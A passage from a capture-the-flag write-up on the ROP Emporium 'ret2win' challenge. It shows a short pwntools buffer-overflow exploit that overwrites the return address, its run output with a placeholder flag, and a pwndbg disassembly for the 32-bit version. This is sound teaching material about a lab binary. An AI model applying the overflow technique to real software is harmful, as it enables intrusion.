 ### Exploit

```python title="exploit64.py"
from pwn import *

padding = b"a"*40
ret2win_addr = p64(0x400756)

payload = padding + ret2win_addr

p = process('./ret2win')
p.sendline(payload) 
p.interactive()
```

Let's run the exploit.

```
$ python exploit64.py 
[+] Starting local process './ret2win': pid 26803
[*] Switching to interactive mode
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag}
```

&nbsp;

## 32 bit

In order to create an exploit we need to know the following:
	
* [] Address of `ret2win()`
* [] Distance between the buffer and return address

### `ret2win()`

Let's disassemble `ret2win()`.

```
pwndbg> disassemble ret2win
Dump of assembler code for function ret2win:
   0x0804862c <+0>:     push   ebp
   0x0804862d <+1>:     mov    ebp,esp
   0x0804862f <+3>:     sub    esp,0x8
   0x08048632 <+6>:     sub    esp,0xc
   0x08048635 <+9>:     push   0x80487f6
   0x0804863a <+14>:    call   0x80483d0 <puts@plt>
   0x0804863f <+19>:    add    esp,0x10
   0x08048642 <+22>:    sub    esp,0xc
   0x08048645 <+25>:    push   0x8048813
   0x0804864a <+30>:    call   0x80483e0 <system@plt>
   0x0804864f <+35>:    add    esp,0x10
   0x08048652 <+38>:    nop
   0x08048653 <+39>:    leave
   0x08048654 <+40>:    ret
End of assembler dump.
```
